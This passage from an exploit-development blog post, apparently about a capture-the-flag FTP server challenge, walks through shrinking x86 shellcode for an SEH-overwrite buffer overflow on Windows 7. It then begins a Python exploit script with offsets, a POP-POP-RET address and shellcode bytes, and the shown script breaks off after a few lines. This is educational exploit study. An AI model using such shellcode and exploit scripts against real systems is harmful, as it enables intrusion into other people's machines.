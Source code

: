 I came to realise that pushing byte values to the stack was actually really small and didn't use any bad chars. Hence I changed things up to look like this:

``` python Not-so-Silly socket() preparation
# set up the stack for the call to `socket`
shellcode += "\x6A\x06"                           # PUSH 6
shellcode += "\x6A\x01"                           # PUSH 1
shellcode += "\x6A\x02"                           # PUSH 2
```

Again down from `8` bytes to `6`, giving us another `2` bytes in the pocket.

### Saving 4 - VirtualProtect params

The call to `VirtualProtect` requires a parameter that is a valid point which will receive the previous memory protection on return. Previously I was offsetting from `ESP` to make sure that the address was valid and writable. It looked like this:

``` python VirtualAlloc preparation
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
shellcode += "\x50"                               # PUSH EAX
```

I have since realised that the `EBP` register actually falls within a valid memory area for just this purpose, so instead of doing an offset calculation and then a push, I just pushed `EBP` instead:

``` python Shorter VirtualAlloc preparation
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x55"                               # PUSH EBP
```

This cut another `4` bytes off the payload. W00t!

## The Final Exploit

The changes made to the shellcode resulted in a total of `8` bytes shaved off, which combined with the jump reshuffle made the payload fit into memory with room to spare! Happy with that. Before I reveal the final exploit I'd like to mention a couple of things:

* This approach didn't work on Windows XP, and hence the old exploit which works on XP I had to keep around.
* This approach still _does not work_ with Vista. The shellcode space on Vista is even smaller and I have yet to put the effort in to find another approach which fits within the memory constraints.
* It also doesn't work on Windows 8, but I haven't attached a debugger to it to figure out why just yet.

At this point I think I'll move onto another challenge (perhaps something more real world?). And so without further delay, here it is:

``` python Final Exploit
#!/usr/bin/python

import socket, struct, time, sys

def windows_7(target):
  seh_offset = 354
  nseh_offset = seh_offset - 4
  sc_len = 0x54
  sc_offset = nseh_offset - sc_len

  ppr = struct.pack("<L", target['PPR'])

  shellcode  = ""
  # Adjust the stack to prevent it from breaking things in our shellcode
  shellcode += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
  # Get the address of `socket` into EBX
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization